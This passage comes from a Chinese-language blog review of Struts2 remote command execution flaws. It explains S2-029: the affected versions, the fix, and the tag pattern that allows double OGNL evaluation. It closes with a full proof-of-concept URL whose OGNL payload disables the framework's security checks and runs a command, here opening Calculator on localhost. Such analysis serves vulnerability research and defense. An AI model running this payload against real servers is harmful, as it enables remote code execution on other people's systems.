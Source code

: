 ![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/10.png)

### S2-029

> 官方链接：[https://struts.apache.org/docs/s2-029.html](https://struts.apache.org/docs/s2-029.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.16
> 
> 修复摘要：限制传入标签属性的值，对其进行合规的正则验证

简单的说就是当开发者在模版中使用了类似如下的标签写法时，后端 Struts2 处理时会导致二次 OGNL 表达式执行的情况：

```
<s:textfield name="%{message}"></s:textfield>
```

这里需要注意的是，仅当只有 `name` 属性这样写的情况下才能触发 OGNL 表达式执行，并且该标签中不能显示写有 `value` 属性。详细分析可参考天融信阿尔法实验室的张萌所写的[《struts2漏洞s2-029分析》](http://blog.topsec.com.cn/ad_lab/struts2漏洞s2-029分析/)

到 S2-029 这里是，Struts2 已经增加了相当多的安全检测了，所以想要直接执行命令还需要通过修改这些安全参数来绕过最后的执行检测，具体的安全参数版本差异同样可参考上面的详细分析文章。

下面测试环境使用的是 `Struts 2.3.24.1`：

    http://localhost:8080/S2-029/default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))
